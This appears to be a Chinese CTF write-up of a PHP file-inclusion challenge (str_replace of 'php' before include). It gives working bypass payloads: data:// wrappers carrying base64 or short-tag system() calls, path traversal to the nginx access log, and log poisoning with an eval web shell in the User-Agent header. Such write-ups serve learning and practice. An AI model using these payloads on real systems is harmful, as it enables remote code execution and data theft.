








```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

分析源码

GET传入file

将传入参数中的php替换为？？？


### 第一种

利用data://text/plain并结合base64编码绕过

```
echo '<?php system('ls');?>'|base64
```



```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKGxzKTs/Pgo=
```



```
echo '<?php system('cat flag.php');?>'|base64
```



```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/Pgo=

```


### 第二种

依旧利用data://text/plain

利用<?=绕过php

利用*匹配flag.php

```
?file=data://text/plain,<?=system("tac flag*")?>
```




### 第三种

利用?匹配flag.php

参考字母绕过


### 第三种

日志注入

尝试读取日志文件

```
?file=../../../../../../../../var/log/nginx/access.log
```



抓包

修改UA头

```
ra<?php @eval($_POST[a]);?>1n3
```




php代码被成功解析



GET

```
?file=../../../../../../../../var/log/nginx/access.log
```

POST

```
a=system("ls");
```

